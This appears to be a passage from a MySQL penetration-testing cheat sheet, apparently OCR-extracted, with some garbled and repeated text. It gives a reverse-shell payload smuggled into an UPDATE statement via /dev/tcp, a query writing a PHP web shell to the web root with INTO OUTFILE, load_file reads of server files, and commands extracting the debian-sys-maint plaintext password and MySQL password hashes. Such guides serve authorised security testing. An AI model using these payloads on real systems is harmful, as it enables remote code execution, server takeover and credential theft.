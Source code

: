 ```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```
## Executing a Reverse Shell Through SQL Command Injection
This example demonstrates updating a user's email in a database to execute a reverse shell, highlighting the potential for command injection vulnerabilities in SQL operations.
```
mysql> UPDATE hackviserdb.users SET email='hackviser@shell|| bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1" &' WHERE name LIKE 'user%';
```
Executing Commands via SQL Read & Write Operations
SQL provides capabilities for both reading from and writing to files, which can be exploited for command execution:

**Reading Files:** The load_file function allows reading the contents of a file from the server's filesystem. For example, to read a key file:
```
SELECT load_file('/var/lib/mysql-files/key.txt');
```
This command reads the content of key.txt located in the MySQL server's file directory.

**Writing Files:** SQL also enables writing data to files using the INTO OUTFILE clause. This can be leveraged to write malicious scripts to the server. For instance, to create a PHP file that executes commands passed via URL:
```
SELECT 1,2,%22%3C%3Fphp%20echo%20shell_exec%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22,4,5 INTO OUTFILE '/var/www/html/shell.php
```
This creates a shell.php file in the web server's root, which when accessed, can execute commands specified in the command query parameter.

## Accessing MySQL Credentials from System Files
MySQL credentials can be uncovered in plaintext or as hashes from specific system files, providing alternative access methods to the database:

**Debian System Maintenance User:** The /etc/mysql/debian.cnf file contains the plaintext password for the debian-sys-maint user, allowing for authorized database access.
```
cat /etc/mysql/debian.cnf
```
**MySQL User Hashes:** User password hashes are stored in /var/lib/mysql/mysql/user.MYD. These hashes represent the encrypted passwords of MySQL users and can be extracted for potential cracking.
```
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```
### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```
